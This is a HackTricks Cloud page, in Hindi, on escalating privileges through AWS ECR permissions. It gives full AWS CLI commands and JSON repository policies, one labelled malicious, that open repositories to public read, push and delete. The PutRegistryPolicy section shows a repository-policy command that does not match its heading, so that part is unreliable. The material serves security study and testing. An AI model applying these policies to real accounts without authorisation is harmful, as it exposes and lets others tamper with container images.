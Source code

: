 # AWS - ECR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

एक हमलावर जिसके पास **`ecr:GetAuthorizationToken`** और **`ecr:BatchGetImage`** हैं, वह ECR में लॉगिन कर सकता है और इमेज डाउनलोड कर सकता है।

इमेज डाउनलोड करने के तरीके के बारे में अधिक जानकारी के लिए:

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**संभावित प्रभाव:** ट्रैफिक में संवेदनशील जानकारी को इंटरसेप्ट करके अप्रत्यक्ष प्रिविलेज़ एस्कलेशन।

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

एक हमलावर जिसके पास ये सभी अनुमतियाँ हैं, **ECR में लॉगिन कर सकता है और इमेज अपलोड कर सकता है**। यह उन अन्य वातावरणों में प्रिविलेज़ बढ़ाने के लिए उपयोगी हो सकता है जहाँ ये इमेज उपयोग की जा रही हैं।

नई इमेज अपलोड करने/अपडेट करने के तरीके के लिए, देखें:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

पिछले अनुभाग की तरह, लेकिन सार्वजनिक रिपॉजिटरी के लिए।

### `ecr:SetRepositoryPolicy`

एक हमलावर जिसके पास यह अनुमति है, वह **रिपॉजिटरी** **नीति** को **बदल** सकता है ताकि वह (या यहां तक कि सभी) को **पढ़ने/लिखने की अनुमति** मिल सके।\
उदाहरण के लिए, इस उदाहरण में सभी को पढ़ने की अनुमति दी गई है।
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
`my-policy.json` की सामग्री:
```json
{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

पिछले अनुभाग की तरह, लेकिन सार्वजनिक रिपॉजिटरी के लिए।\
एक हमलावर **रिपॉजिटरी नीति को संशोधित** कर सकता है एक ECR सार्वजनिक रिपॉजिटरी की ताकि अनधिकृत सार्वजनिक पहुंच प्रदान की जा सके या अपनी विशेषाधिकारों को बढ़ाया जा सके।

{% code overflow="wrap" %}
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
{% endcode %}

**संभावित प्रभाव**: ECR सार्वजनिक भंडार तक अनधिकृत सार्वजनिक पहुंच, जिससे कोई भी उपयोगकर्ता छवियों को पुश, पुल या हटाने की अनुमति मिलती है।

### `ecr:PutRegistryPolicy`

इस अनुमति के साथ एक हमलावर **पॉलिसी** को **बदल** सकता है ताकि वह अपने लिए, अपने खाते के लिए (या यहां तक कि सभी के लिए) **पढ़ने/लिखने की पहुंच** प्रदान कर सके।
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}

